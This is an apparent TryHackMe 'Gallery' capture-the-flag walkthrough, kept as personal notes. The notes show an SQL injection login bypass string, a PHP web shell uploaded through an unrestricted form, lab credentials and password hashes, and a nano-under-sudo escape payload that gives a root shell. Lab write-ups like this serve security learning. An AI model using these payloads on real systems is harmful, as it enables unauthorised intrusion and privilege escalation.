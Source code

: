 # Notes - Tryhackme Gallery


## http://10.10.234.15/gallery/login.php

```bash
admin' or '1'='1'# - Bypasses login.
```
## Reverse shell steps

Bypass login with SQLi
Go to Albums -> Album 104
Click Upload
The upload form is unrestricted, I simply uploaded a php one liner.
Right click on script uploaded and copy image link.
Execute commands at will :DDD

## Initialize.php

```bash
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
```

## /etc/passwd

```bash
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
mike:x:1001:1001:mike:/home/mike:/bin/bash
```


```bash
╔══════════╣ Searching passwords in history files
      @stats   = stats                                                                                                                                                 
      @items   = { _seq_: 1  }
      @threads = { _seq_: "A" }
sudo -lb3stpassw0rdbr0xx
sudo -l
```
## /home/mike/documents/accounts.txt

```bash
Spotify : mike@gmail.com:mycat666
Netflix : mike@gmail.com:123456789pass
TryHackme: mike:darkhacker123
```
## sudo -l

```bash
mike@gallery:/dev/shm$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
## /opt/rootkit.sh

```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
# Privilege Escalation

https://gtfobins.github.io/gtfobins/nano/ - Under 'Sudo'

sudo /bin/bash /opt/rootkit.sh

Type 'read'

When Nano opens up use CTRL+R and then CTRL+X

Paste "reset; sh 1>&0 2>&0" and hit enter.

A root shell has now spawned. GG


# NOTE - Interact with the DB

```bash
MariaDB [gallery_db]> select * from users;
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                                   | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | a228b12a08b6527e7978cbe5d914531c | uploads/1629883080_1624240500_avatar.png | NULL       |    1 | 2021-01-20 14:02:37 | 2021-08-25 09:18:12 |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)
```
The machine is already rooted at this point but you have to interact with the DB to get the admin password hash for question 3.
